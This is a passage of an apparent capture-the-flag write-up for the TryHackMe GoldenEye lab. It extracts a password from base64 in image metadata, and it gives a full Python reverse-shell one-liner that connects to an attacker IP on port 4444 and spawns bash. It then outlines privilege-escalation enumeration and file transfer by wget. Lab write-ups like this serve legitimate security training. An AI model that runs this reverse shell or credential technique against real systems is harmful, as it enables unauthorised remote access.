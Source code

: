 ```
X Resolution                    : 300
Y Resolution                    : 300
Exif Byte Order                 : Big-endian (Motorola, MM)
Image Description               : eFdpbnRlcjE5OTV4IQ==
Make                            : GoldenEye
Resolution Unit                 : inches
Software                        : linux
Artist                          : For James
Y Cb Cr Positioning             : Centered
Exif Version                    : 0231
Components Configuration        : Y, Cb, Cr, -
User Comment                    : For 007
Flashpix Version                : 0100
Image Width                     : 313
Image Height                    : 212
Encoding Process                : Baseline DCT, Huffman coding
Bits Per Sample                 : 8
Color Components                : 3
Y Cb Cr Sub Sampling            : YCbCr4:4:4 (1 1)
Image Size                      : 313x212
Megapixels                      : 0.066
```

```
bibo318@parrot:~/CTFs/tryhackme/GoldenEye$ echo 'eFdpbnRlcjE5OTV4IQ==' | base64 -d
xWinter1995x!
```

13. As this user has more site privileges, you are able to edit the moodles settings. From here get a reverse shell using python and netcat. Take a look into Aspell, the spell checker plugin.

```py
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.8.106.222",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/bash","-i"]);'
```

## Task 4 Privilege Escalation

Now that you have enumerated enough to get an administrative moodle login and gain a reverse shell, its time to priv esc.

1. Download the linuxprivchecker to enumerate installed development tools.

To get the file onto the machine, you will need to wget your local machine as the VM will not be able to wget files on the internet. Follow the steps to get a file onto your VM:

- Download the linuxprivchecker file locally
- Navigate to the file on your file system
- Do: python -m SimpleHTTPServer 1337 (leave this running)
- On the VM you can now do: wget <your IP>/<file>.py

OR

Enumerate the machine manually.
